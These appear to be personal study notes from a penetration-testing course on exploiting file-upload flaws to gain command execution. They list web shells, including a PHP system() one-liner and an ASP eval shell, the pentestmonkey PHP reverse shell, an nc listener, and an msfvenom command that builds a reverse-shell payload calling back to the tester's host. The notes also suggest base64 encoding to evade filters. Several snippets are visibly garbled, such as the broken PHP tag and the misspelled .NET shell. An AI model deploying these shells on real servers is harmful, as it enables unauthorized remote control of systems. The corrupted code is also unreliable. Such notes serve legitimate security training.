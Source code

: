 
The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script


## Web Shells

One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell

```bash
/usr/share/seclists/Web-Shells
```

```
http://SERVER_IP:PORT/uploads/phpbash.php
```


## Writing Custom Web Shell
write a simple web shell manually.

we may not have access to online tools during some penetration tests

`PHP` web applications:
`system()` function
```php
<?pstem($_REQUEST['cmd']); ?>
```
```bash
http://SERVER_IP:PORT/uploads/shell.php?cmd=id
```

>It could be the only available option during some web penetration tests

>use source-view shows the command output as it would be shown in the terminal.


`.NET` web applications,:
```bash
<% eval reeeeequest('cmmmmmd') %>
```


>It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall



## Reverse Shell

 reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell
```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

```bash
nc -lvnp OUR_PORT
```


## Generating Custom Reverse Shell Scripts

`system` function and pass it a reverse shell command ==  unreliable

### **msfvenom**
```bash
AhmaDb0x@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
`-p` flag and specify the output language with the `-f` flag
- `-f php` → Adds PHP tags (`<?php ... ?>`) around the payload.
- `-f base64` → Encodes the payload in **Base64** for bypassing filters.


>they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.

